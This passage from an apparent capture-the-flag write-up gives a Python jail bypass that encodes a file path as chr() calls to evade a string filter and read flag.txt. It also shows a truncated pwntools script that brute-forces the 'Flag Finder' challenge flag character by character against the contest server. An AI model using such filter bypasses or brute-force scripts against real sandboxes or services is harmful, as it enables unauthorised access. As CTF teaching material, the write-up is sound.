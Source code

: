 ![](/assets/obsidian/8c1ca2a1b49e07242fcb1804a60c6085.png){:target='_blank'}

> **String to ascii filter bypass**
> Another way from the official writeup
> ```python
> a = './Mljail/flag.txt'
{: .prompt-tip }
s = ""
for c in a:
  s += f"chr({str(ord(c))})+"
print(s[:-1])
> ```
> Exploit
> ```python
> print(open(chr(46)+chr(47)+chr(77)+chr(76)+chr(106)+chr(97)+chr(105)+chr(108)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116), 'r').read())
> ```

## Flag Finder


### Info

All you have to do is guess the flag.

_Flag format: pctf{}_

_Author: @shadowbringer007_

`nc chal.pctf.competitivecyber.club 4757`

### Solve

Not an ideal way to achieve concurrency, but gets the thing done under 1 minute

```python
import string
from pwn import remote, info, context
from concurrent.futures import ThreadPoolExecutor



# Surpress debug info
context.log_level = "ERROR"
flag = "pctf{"


def try_char(c:str, length: int):
    global flag
    if len(flag) == length:
        return
    
    payload = (flag + c).ljust(19, '~').encode()
    print(f"[*] Tying : {payload}")
    
    io = remote('chal.pctf.competitivecyber.club', 4757)
    io.sendline(payload)
    res = io.recvall()
    
```
